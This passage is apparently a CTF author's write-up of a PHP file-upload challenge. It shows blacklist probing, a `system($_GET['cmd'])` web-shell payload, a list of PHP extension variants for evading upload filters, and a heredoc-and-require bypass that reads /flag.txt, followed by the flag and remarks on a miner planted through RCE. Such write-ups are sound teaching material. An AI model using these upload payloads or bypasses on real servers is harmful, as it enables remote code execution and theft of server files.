Result: **BLOCKED** - Contains `$` (variable declaration)

Using Function Calls
```php
<?php echo file_get_contents('/flag.txt'); ?>
```

Result: **BLOCKED** - Contains `file_get_contents` keyword and `()` parentheses

##### Deducing the Blacklist Through Trial and Error

By trying different payloads, we can deduce what's filtered:

| Payload | Result | Blocked Element |
|---------|--------|-----------------|
| `<?php system(...) ?>` | BLOCKED | `system` keyword |
| `<?php exec(...) ?>` | BLOCKED | `exec` keyword |
| `<?php eval(...) ?>` | BLOCKED | `eval` keyword |
| `<?php $var = '...' ?>` | BLOCKED | `$` character |
| `<?php func(...) ?>` | BLOCKED | `(` and `)` characters |
| `<?php $arr[0] ?>` | BLOCKED | `[` and `]` characters |
| `<?php "string" ?>` | BLOCKED | `"` and `'` characters |
| `<?php include(...) ?>` | BLOCKED | `include` and `()` |

### File Extensions

Even if the content passes the blacklist, the file extension matters for execution. The server must map the extension to a PHP handler. Let's try different extensions:

`.php`
```
Filename: shell.php
Content: <?php system($_GET['cmd']); ?>
```
Result: **BLOCKED** - File extension or content filtered

`.phtml`
```
Filename: shell.phtml
Content: <?php system($_GET['cmd']); ?>
```
Result: **BLOCKED** - Content still contains forbidden characters

`.phtml` with Heredoc bypass
```
Filename: shell.phtml
Content: <?=require <<<A
/fl
A
.<<<B
ag.txt
B
?>
```
Result: **Accepted** - Bypassed

#### PHP extensions

| Extension | Server Config | Result |
|-----------|---------------|--------|
| `.php` | Usually enabled | BLOCKED |
| `.php3` | Apache/CGI only | Test if allowed |
| `.php4` | Apache/CGI only | Test if allowed |
| `.php5` | Apache/CGI only | Test if allowed |
| `.phtml` | Apache enabled | Test if allowed |
| `.pht` | Apache enabled | Test if allowed |
| `.phps` | Source view | BLOCKED |
| `.html` | Static files | BLOCKED |

The key is finding which extension the server allows AND will execute as PHP. The common php related extensions have:

```
phtml
php
php3
php4
php5
pHtml
pHp
pHp3
pHp4
pHp5
```

Case-insensitive extensions might bypass filters! The server might check lowercase but execute based on actual case.

Now test `.phtml` first (commonly enabled), then try case variations like `.pHtml` or `.PhTmL`.

### Heredoc Bypassing

The key insight is realizing what's **NOT** blocked. Let's think about PHP syntax features that don't require parentheses or quotes:

#### The <<<

The Heredoc syntax is a PHP feature for defining multi-line strings **without needing quotes or special characters**.

```php
// Traditional string (BLOCKED due to quotes):
$str = "hello";

// Heredoc string (NOT BLOCKED - no quotes, no $):
<?php
$str = <<<END
hello
END;
?>
```

- No quote characters (`"` or `'`)
- Can define strings without variable declaration needed
- Supports string concatenation at parse time
- Not in the typical blacklist because it's less commonly exploited

#### Combining Heredoc with `require`

The `require` keyword is special in PHP:

- It's a **language construct**, not a function
- It can work **without parentheses**

```php
// Function style
<?php require('/flag.txt'); ?>

// Construct
<?php require '/flag.txt' ?>

// With Heredoc
<?php require <<<A
/flag.txt
A;
?>
```

### Building the Exploit

Construct the file path using Heredoc

Since `/flag.txt` contains a `/`, we can split it:
- `/fl` (first part)
- `ag.txt` (second part)

```php
<<<A
/fl
A
.<<<B
ag.txt
B
```

This creates two Heredoc strings and concatenates them:

- `<<<A ... A` → `/fl`
- `<<<B ... B` → `ag.txt`

Instead of `<?php ... ?>`, we use `<?= ... ?>` (short echo tag):

```php
<?=require <<<A
/fl
A
.<<<B
ag.txt
B
?>
```

Now:

- Heredoc concatenation `/fl` + `ag.txt` = `/flag.txt`
- Passes it to `require` language construct
- Executes the require and echoes the output
- All without using `()`, `"`, `$`, or any blacklisted characters!

Use `.phtml` extension instead of `.php` to potentially bypass file type checks:

#### Final Exploit

```
Filename: exploit.phtml

Content:

<?=require <<<A
/fl
A
.<<<B
ag.txt
B
?>
```

### Upload the File

1. Save the above code to a file
2. Upload it to the platform with filename: `exploit.phtml`
3. The server processes it through the blacklist filter


#### Retrieve Flag

Click on the uploaded file path to trigger execution:

1. Navigate to the uploaded file URL
2. PHP interprets the file
3. The heredoc syntax constructs `/flag.txt` path
4. `require` statement reads and displays the file contents
5. The flag is revealed

Flag: `THJCC{w311_d0n3_y0u_byp4553d_7h3_b14ck1157_:D}`


### Overall

Simple Hack was the challenge that took me the most time to complete. It is also the hardest one! XDDD

This challenge was actually rewritten based on a Zero-Day vulnerability I found :) So, its difficulty is the highest among these four challenges!

If you can't solve it, don’t feel discouraged... because I believe that to get this one right, you need a lot of web security knowledge.

For the others, you can basically rely on AI to solve most of them. But this one is a different story! XDD

Finally, I want to thank my teammate, ICEDTEA. This experience of creating challenges is invaluable to me!!!! Next year, I'm planning to come up with more pentest challenges... XDD, like those in the Privilege Escalation category.

Because after that, knowing how to handle Instancer will make things easier. i can express the challenge creation even better! XDDD

#### Mining Bot ?????

Recently, before the CTF started, someone was working on my challenge. When I created a react2shell challenge, someone gained remote code execution (RCE) on our challenge machine and ran a program for crypto mining.

It was really frustrating, especially since they accessed our CT logs, which revealed our subdomain that seemed to be related to the challenge, and exploited the RCE in our R2S challenge.

I felt like: WTF Bro? So fucking bad.


